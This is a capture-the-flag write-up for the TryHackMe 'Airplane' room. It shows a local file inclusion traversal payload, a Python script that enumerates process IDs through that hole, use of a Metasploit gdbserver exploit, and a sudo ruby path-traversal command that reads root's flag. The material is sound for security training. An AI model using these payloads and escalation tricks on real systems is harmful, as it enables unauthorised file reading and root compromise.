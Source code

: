 # Airplane (Tryhackme)

**This writeup will guide you through the “Airplane” room on TryHackMe, from start to finish. We’ll cover the steps, tools, and techniques needed to complete the challenge, from initial scanning to gaining root access. Whether you’re a beginner or an experienced hacker, this guide will help you navigate and conquer the “Airplane” room. Let’s dive in and take off on this cybersecurity adventure!**

*The first step is to perform an Nmap scan to identify open ports and services on the target machine.*
![Screenshot 2024-10-08 133229](https://github.com/user-attachments/assets/43286e92-2b9d-4c50-881a-78926570a938)

now first configure /etc/hosts to resolve given ip to airplane.thm

![Screenshot 2024-10-08 133529](https://github.com/user-attachments/assets/f3a6a56e-fa89-41c0-8b8b-5c7c0f7a4cbb)

*Upon visiting airplane.thm:8000, we discovered a Local File Inclusion (LFI) vulnerability.*

![Screenshot 2024-10-08 133607](https://github.com/user-attachments/assets/f958cd7f-dd68-4648-bbdc-c09000321196)

By visiting using burpsuite /proc/net/tcp, we observed several running services and noted that port 6048 → hex (17A0) also has an active unknown service
![Screenshot 2024-10-08 133631](https://github.com/user-attachments/assets/4731dcb5-7169-4bf8-ba14-e9f6c24e02bc)

I use chat-gpt to write python code to find pid of services running on port 6048.

```
import requests

def read_file(base_url, path):
    file_url = f"{base_url}/?page=../../../../{path}"
    try:
        response = requests.get(file_url)
        if response.status_code == 200:
            return response.text
        else:
            return None
    except Exception as e:
        print(f"Error reading {path}: {e}")
        return None

def find_pid_by_port(base_url, port):
    for pid in range(1, 5000):  # Adjust the range based on the expected number of PIDs
        cmdline_path = f"proc/{pid}/cmdline"
        cmdline = read_file(base_url, cmdline_path)
        if cmdline:
            if str(port) in cmdline:
                return pid
    return None

# Example usage
base_url = 'http://airplane.thm:8000'
port = '6048'
pid = find_pid_by_port(base_url, port)
if pid:
    cmdline = read_file(base_url, f"proc/{pid}/cmdline")
    status = read_file(base_url, f"proc/{pid}/status")
    print(f'PID using port {port}: {pid}')
    print(f'Command line: {cmdline}')
    print(f'Status: {status}')
else:
    print(f'No process found using port {port}')
```
I discovered that gdbserver is running on port 6048 with PID 524.
![Screenshot 2024-10-08 133856](https://github.com/user-attachments/assets/5b0db5a8-fe92-4f81-9ab3-6261f5162032)

I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

Here is the Ruby script I wrote to read root.txt:
```
# read_root.rb
puts File.read('/root/root.txt')
```

I saved this script in my current directory and executed it using the following command:

sudo /usr/bin/ruby /root/../home/carlos/read_root.rb
